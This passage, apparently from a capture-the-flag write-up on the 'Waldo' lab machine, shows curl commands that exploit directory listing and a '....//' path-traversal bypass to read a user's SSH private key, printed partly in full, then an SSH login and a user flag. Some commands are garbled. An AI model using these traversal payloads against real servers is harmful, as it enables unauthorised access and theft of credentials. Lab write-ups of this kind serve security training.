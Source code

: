 For instance, dirRead.php has Directory Traversal(?).<br>
Which means we can see any directory on Waldo if we have a permission.
{% highlight shell %}
root@kali:~# curl -i -X POST http://10.10.10.87/dirRead.p "Content-Type: application/x-www-form-urlencoded" -d "path=./" 
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 18 Sep 2018 21:55:09 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/7.1.16

[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
{% endhighlight %}

In addition, by taking advantage of fileRead.php, we can achieve one private key of private key for user nobody.

{% highlight shell %}
root@kali:/homefileRead.php -H "Content-Type: application/x-www-form-urlencoded" -d "file=....//....//....//home/nobody/.ssh/.monitor"
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 18 Sep 2018 23:20:03 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/7.1.16

{"file":"-----BEGIN RSA PRIVATE KEY-----\nMIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl\nmR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f\n87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS\ndGCc\/gNpW\/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN\no8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8\/6pceowqs9ujRkNzH9T1lJq4Fx1V\nvi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl\/wdmuPEW6kU\nvmzhRU3gcjuzwBET0TNejbL\/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR\/6\npKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5\n8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q\n1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox\/05qoOBL4kQxUM7\nVxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS\ndVa3yLECgYEA7jk51MvUGSIFF6GkXsNb\/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO\nv0og0X\/iROXAcp6Z9WGpIc6FhVgJd\/4bNlTR+A\/lWQwFt1b6l03xdsyaIyIWi9xr\nxsb2sLNWP56A\/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY\nqFfdAWrvVZjp26Yf\/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI\nyzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1\n\/pAcw\/+\/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw\/IMnLa3drm3CIAa32iU\nLRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ\/\nlnN2n1WyTIyEuGA\/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp\nw7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9\n1HLmBkDTjjj\/xAJAZuiOF4Rs\/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT\nrj1BhUCzZCUgQABtpC6vYj\/HLLlzpiC05AIEhDdvToPK\/0WuY64fds0VccAYmMDr\nX\/PlAoGAS6UhbCm5TWZhtL\/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2\nDvVny8gKbM\/OenwHnTlwRTEj5qdeAM40oj\/mwCDc6kpV1lJXrW2R5mCH9zgbNFla\nW0iKCBU
{% endhighlight %}

we can use it by command "ssh -i"

{% highlight shell %}
root@kali:~# ssh nobody@10.10.10.87 -i private_key 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.

waldo:~$ cat user.txt
32768bcd7513275e085fd4e7b63e9d24
{% endhighlight %}
